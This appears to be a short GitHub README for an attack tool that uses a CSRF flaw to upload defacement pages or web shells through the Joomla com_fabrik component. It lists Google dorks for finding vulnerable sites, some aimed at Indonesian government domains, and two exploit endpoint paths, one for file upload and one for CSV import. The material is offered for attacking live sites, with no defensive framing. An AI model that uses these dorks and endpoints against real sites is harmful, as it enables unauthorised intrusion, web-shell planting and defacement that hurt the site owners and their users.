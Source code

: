# CSRF-Comfabrik-vuln-uploader.

---

Simple CSRF to upload deface or shell to Comfabrik vuln.

---

Dork: inurl:index.php?option=com_fabrik
Dork: inurl:index.php/component/fabrik/ site:go.id
Dork: inurl:index.php?option=com_fabrik&view= site:go.id
Dork: inurl:index.php?option=com_fabrik

---

Exploit: /index.php?option=com_fabrik&format=raw&task=plugin.pluginAjax&plugin=fileupload&method=ajax_upload
Exploit: /index.php?option=com_fabrik&c=import&view=import&filetype=csv&table=1

---

Voices.
